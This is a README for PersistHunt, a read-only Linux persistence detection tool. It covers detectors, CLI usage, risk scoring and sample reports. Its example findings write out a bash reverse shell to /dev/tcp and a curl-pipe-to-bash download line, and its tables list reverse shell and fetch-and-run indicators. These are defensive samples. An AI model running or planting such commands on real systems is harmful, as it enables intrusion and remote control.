




# PersistHunt

> A Linux persistence detection and security auditing framework.

[](https://github.com/0xraiven/persistHunt/actions/workflows/ci.yml)
[](LICENSE)
[](pyproject.toml)
[](tests/)
[-blueviolet.svg)](requirements.txt)
[](CHANGELOG.md)

PersistHunt is a specialized, zero-dependency security framework engineered to audit Linux systems for persistence mechanisms, hidden backdoors, unauthorized elevated privileges, and post-exploitation artifacts.

---

## Visual Overview

| Clean System Audit | Suspicious Persistence Finding |
|---|---|
|  |  |

| Explainable Risk Summary | Machine-Readable JSON Output |
|---|---|
|  |  |

---

## Features

- **Strict Read-Only & Non-Interfering**: Never executes discovered commands, never modifies files, never alters accounts or permissions, and never connects to external network sockets.
- **Zero Runtime Dependencies**: Built entirely with Python's standard library. No third-party packages required for production execution.
- **Comprehensive Coverage (7 Persistence Vectors)**: Audits cron schedules, systemd service units, SSH keys/options, shell startup scripts, elevated SUID/SGID binaries, active processes, and local account databases.
- **Deterministic & Explainable Risk Scoring**: Aggregates findings into a standardized, explainable 0.0–10.0 risk score with explicit contributing factor weights.
- **Multi-Format Reporting**: Generates human-readable terminal summaries, self-contained air-gapped HTML reports, and machine-readable JSON schema outputs.
- **Detector Isolation & Fault Tolerance**: Individual detector exceptions are safely isolated. An error in one detector never aborts the broader audit.
- **Hardened Resource Boundaries**: Built-in protection against named pipe (FIFO) deadlocks, a 10 MB maximum file size ceiling to prevent DoS attacks, and directory recursion cycle detection.
- **Offline & Container Forensic Ready**: Supports `--root-prefix` for targeting mounted forensic disk images, offline root filesystems, or container layers.

---

## Detection Architecture

PersistHunt decouples persistence enumeration, risk evaluation, and report serialization into clean, modular components:

```text
Filesystem & OS Targets (/etc, /proc, /home, /var, etc.)
                   │
                   ▼
       ┌────────────────────────┐
       │   Detector Pipeline    │
       │  (Isolated Execution)  │
       └───────────┬────────────┘
                   │
    ┌──────────────┼──────────────┬──────────────┐
    ▼              ▼              ▼              ▼
[CronDetector] [SystemdDetector] [SSHDetector] [ShellDetector]
[SuidDetector] [ProcessDetector] [AccountDetector] ...
                   │
                   ▼
         [FindingCollection]
                   │
       ┌───────────┴────────────┐
       │   Risk Scoring Engine  │
       │ (Weighted Normalization)│
       └───────────┬────────────┘
                   │
                   ▼
         [ScanReport Engine]
       ┌───────────┼────────────┐
       ▼           ▼            ▼
 Terminal UI   JSON Schema   HTML Report
```

Every persistence detector inherits from `BaseDetector` (`persisthunt.detectors.base`), exposing a standardized `scan() -> FindingCollection` interface.

---

## Supported Detectors

| Category | Detector Class | Primary Inspection Scope | Key Indicators Detected |
|---|---|---|---|
| **cron** | `CronDetector` | `/etc/crontab`, `/etc/cron.*`, `/var/spool/cron/*` | Reverse shells, download-and-pipe (`curl \| bash`), temp dir execution (`/tmp`), base64 decoding, hidden scripts. |
| **systemd** | `SystemdDetector` | `/etc/systemd/system`, `/usr/lib/systemd/system`, `~/.config/systemd/user`, drop-ins | Network socket redirection (`/dev/tcp`), binaries executing from `/tmp` or hidden folders, inline interpreter invocations. |
| **ssh** | `SSHDetector` | `/root/.ssh/authorized_keys`, `/home/*/.ssh/*`, `/etc/ssh/sshd_config` | Unauthorized keys, forced commands (`command=...`), non-login service accounts with keys, insecure key permissions. |
| **shell** | `ShellDetector` | `/etc/profile`, `/etc/profile.d/*`, `~/.bashrc`, `~/.profile`, `~/.zshrc` | Reverse shells, temporary path execution, alias hijacking (`alias sudo=...`), base64 pipelines. |
| **suid** | `SuidDetector` | `/bin`, `/sbin`, `/usr/bin`, `/usr/local/bin`, `/opt`, `/tmp`, `/home` | Binaries with SUID/SGID bits set, world-writable SUID binaries, SUID shells (`bash`, `python`), SUID in non-standard paths. |
| **process** | `ProcessDetector` | `/proc/[pid]/*` | Execution from `/tmp`, running processes with deleted binaries on disk, interactive shells spawned by web servers, reverse shell syntax. |
| **account** | `AccountDetector` | `/etc/passwd`, `/etc/shadow`, `/etc/group` | Unauthorized UID 0 accounts, service accounts with login shells, accounts with suspicious home directories, empty passwords. |

---

## Installation

### Prerequisites

- Linux operating system (kernel 3.10+ recommended)
- Python 3.8 or newer
- Standard user permissions for basic audit, or root/`sudo` for complete inspection of restricted files (`/etc/shadow`, `/root/.ssh`).

### Install from Source

Clone the repository and install using `pip`:

```bash
git clone https://github.com/0xraiven/persistHunt.git
cd persistHunt
pip install .
```

For editable development mode:

```bash
pip install -e ".[dev]"
```

### Direct Standalone Execution

PersistHunt can be executed directly without installation:

```bash
python3 -m persisthunt scan
```

---

## Usage

### CLI Synopsis

```text
persisthunt [-h] [-V] {scan,version} ...
```

### Common Commands

```bash
# Run complete system audit across all detectors
persisthunt scan

# Output results in machine-readable JSON format
persisthunt scan --json

# Filter audit by specific detector categories
persisthunt scan --category cron,systemd,ssh

# Filter findings by minimum severity threshold
persisthunt scan --severity high

# Export audit report to self-contained HTML or JSON
persisthunt scan -o report.html
persisthunt scan -o report.json

# Audit an offline forensic image or container root mount
persisthunt scan --root-prefix /mnt/forensic_root
```

### CLI Options Reference (`persisthunt scan`)

| Option | Flag | Description |
|---|---|---|
| `--json` | | Emit scan results formatted as JSON on `stdout`. |
| `--category` | `-c` | Comma-separated list of detectors to run (`cron`, `systemd`, `ssh`, `shell`, `suid`, `process`, `account`, or `all`). |
| `--severity` | `-s` | Minimum severity filter (`info`, `low`, `medium`, `high`, `critical`). |
| `--output` | `-o` | Destination file path. Automatically selects JSON or HTML based on extension (`.json`, `.html`). |
| `--quiet` | `-q` | Suppress progress messages on `stderr`. |
| `--exit-zero` | | Always return exit code 0 even if threats are discovered (useful for non-blocking CI). |
| `--root-prefix` | | Base root path for offline container, disk image, or forensic mount audits. |

---

## CLI Examples

### Automated Threat Detection in CI/CD

```bash
# Scan system for high-severity persistence and fail pipeline on discovery
persisthunt scan --severity high
STATUS=$?

if [ $STATUS -eq 2 ]; then
    echo "High-severity persistence threat detected!"
    exit 1
fi
```

### Piping JSON into `jq`

```bash
# Extract all critical findings cleanly from stdout
persisthunt scan --json -q | jq '.findings[] | select(.severity == "CRITICAL")'
```

### Generating an Air-Gapped HTML Report

```bash
persisthunt scan -o /var/reports/audit_$(date +%F).html
```

---

## Example Output

### Terminal Summary Output

```text
PersistHunt
Linux Persistence Detection Framework

Scan complete.

Findings: 2

HIGH: 2

Risk Score: 2.4/10

=== Finding Summaries ===

1. [HIGH] PH-CRON-001 - Interactive network utility or raw socket redirection
   Location: /etc/cron.d/sync_job:3
   Evidence: /bin/bash -i >& /dev/tcp/198.51.100.1/4444 0>&1
   Action: Investigate network connections and remove unauthorized cron jobs.

2. [HIGH] PH-SHELL-002 - Remote download piped directly into shell in startup script
   Location: /home/audit_user/.bashrc:42
   Evidence: curl -fsSL https://updates.example.org/patch.sh | bash
   Action: Audit startup script remote sources and verify script integrity.

=== Detector Status ===
- cron: SUCCESSFUL (1 findings)
- shell: SUCCESSFUL (1 findings)
```

---

## JSON Output

PersistHunt produces a deterministic, stable JSON schema:

```json
{
  "tool": "PersistHunt",
  "version": "0.1.0",
  "timestamp": "2026-09-08T12:00:00.000000+00:00",
  "host": "linux-audit-node-01",
  "risk_score": 6.0,
  "statistics": {
    "total_findings": 1,
    "highest_severity": "HIGH",
    "severity_counts": {
      "CRITICAL": 0,
      "HIGH": 1,
      "MEDIUM": 0,
      "LOW": 0,
      "INFO": 0
    },
    "category_counts": {
      "cron": 1
    },
    "raw_score": 6.0,
    "detector_status": {
      "cron": "successful"
    }
  },
  "detector_status": {
    "cron": {
      "status": "successful",
      "findings_count": 1,
      "error": null
    }
  },
  "findings": [
    {
      "id": "PH-CRON-001",
      "category": "cron",
      "severity": "HIGH",
      "title": "Interactive network utility or raw socket redirection in cron entry",
      "description": "Command references /dev/tcp socket paths commonly associated with reverse shell communication.",
      "evidence": "/bin/bash -i >& /dev/tcp/198.51.100.1/4444 0>&1",
      "location": "/etc/cron.d/sync_job:3",
      "recommendation": "Investigate active network connections immediately and terminate unauthorized cron jobs."
    }
  ]
}
```

---

## Severity Model

| Severity | Description | Criteria & Examples |
|---|---|---|
| **CRITICAL** | Confirmed critical vulnerability or elevated backdoor | Non-root UID 0 accounts, empty passwords in `/etc/shadow`, world-writable SUID binaries. |
| **HIGH** | Strong indicator of active persistence or command execution | Reverse shells (`/dev/tcp`, `nc -e`), download-pipe-to-shell (`curl \| sh`), shell alias hijacking (`sudo`), running deleted binaries. |
| **MEDIUM** | Suspicious configuration requiring operator review | Inline interpreter commands (`python -c`), execution from `/tmp`, non-standard SUID binaries, `PermitRootLogin yes`. |
| **LOW** | Configuration anomaly or hygiene issue | Broken symlinks in cron/systemd dirs, system services executing from home directories, recently added accounts. |
| **INFO** | Diagnostic notice or system baseline | Permission denied on unreadable files, standard system SUID inventory (`/usr/bin/passwd`). |

---

## Risk Scoring

PersistHunt uses a deterministic, explainable mathematical aggregation formula rather than naive averaging:

### Severity Weights

$$\text{CRITICAL} = 10.0 \quad\mid\quad \text{HIGH} = 6.0 \quad\mid\quad \text{MEDIUM} = 3.0 \quad\mid\quad \text{LOW} = 1.0 \quad\mid\quad \text{INFO} = 0.0$$

### Mathematical Formulation

$$\text{Raw Score} = \sum_{f \in \text{findings}} \text{Weight}(f.\text{severity})$$

$$\text{Risk Score} = \min\left(10.0, \text{round}\left(\frac{\text{Raw Score}}{5.0}, 1\right)\right)$$

### Properties

- **Never Diluted**: Adding benign or informational findings never lowers the risk score.
- **Bounded**: The risk score scales smoothly between `0.0` and `10.0`.
- **Explainable**: The contributing weights and top findings are directly accessible via `report.explain()`.

---

## Security Model

PersistHunt is built for high-security environments:

1. **Read-Only Operation**: PersistHunt never executes discovered binaries or scripts. No modifications to files, services, accounts, or permissions are ever made.
2. **Offline Safety**: Zero network connections are made. No telemetry, credentials, or findings are transmitted externally.
3. **Secret Shielding**: Password hashes in `/etc/shadow` are never displayed or exported. SSH private key headers and command-line authorization tokens are automatically sanitized.
4. **Special File Protection**: File readers check `stat.S_ISREG` before opening, preventing hangs on named pipes (`mkfifo`) or device nodes.
5. **Memory & Resource Caps**: Enforces a 10 MB maximum file size limit on configuration files and bounded SUID directory traversal (`max_depth = 15`) with cycle detection.

---

## Limitations

- **Privilege Scope**: An unprivileged user audit cannot read `/etc/shadow` or other users' `/home` directories. Full system audits require root privileges.
- **Kernel-Level Persistence**: Rootkits operating entirely within the Linux kernel (e.g. malicious kernel modules or direct kernel object manipulation) cannot be detected by userland file auditing.
- **Transient Memory Payloads**: In-memory only payloads that do not touch disk or register persistence hooks will not be captured after process termination.

---

## Testing

PersistHunt maintains a comprehensive automated test suite with 180+ tests:

```bash
# Run complete test suite
pytest -v

# Run the end-to-end 11-stage demonstration script
python3 demo.py
```

---

## Architecture

```text
persisthunt/
├── __init__.py           # Package exports & version
├── __main__.py           # python -m persisthunt entrypoint
├── cli.py                # Command-line interface & argument parser
├── findings.py           # Finding model, FindingCollection & Severity enum
├── reporting.py          # ScanReport engine (Terminal, JSON, HTML)
├── risk.py               # Deterministic risk-scoring engine
└── detectors/
    ├── base.py           # BaseDetector abstract interface & safe file helpers
    ├── cron.py           # Cron persistence detector
    ├── systemd.py        # Systemd unit persistence detector
    ├── ssh.py            # SSH authorized_keys & daemon detector
    ├── shell.py          # Shell initialization script detector
    ├── suid.py           # SUID/SGID binary auditor
    ├── process.py        # Active process runtime detector
    └── account.py        # Local account & password aging detector
```

---

## Roadmap

- [ ] **Wazuh Agent Integration**: Native decoders and rules for PersistHunt JSON alerts.
- [ ] **eBPF System Call Auditing**: Real-time event detection for runtime persistence installation.
- [ ] **systemd Timer Frequency Analysis**: Automated detection of high-frequency stealth timers.
- [ ] **Auditd Rule Generation**: Exporting proactive auditd rules matching discovered persistence mechanisms.

---

## Community & Contributing

We welcome contributions from security researchers and open source developers!

- **Contributing Guide**: Read [CONTRIBUTING.md](CONTRIBUTING.md) for architectural invariants, coding conventions, and a step-by-step guide to authoring new persistence detectors.
- **Security Policy**: For vulnerability reporting and coordinated disclosure, see [SECURITY.md](SECURITY.md).
- **Changelog**: All release notes and version histories are tracked in [CHANGELOG.md](CHANGELOG.md).

---

## License

This project is licensed under the terms of the [MIT License](LICENSE).

---

## Disclaimer

PersistHunt is intended for authorized security auditing, defensive persistence hunting, and vulnerability assessment. Never use this tool against systems for which you do not possess explicit authorization.
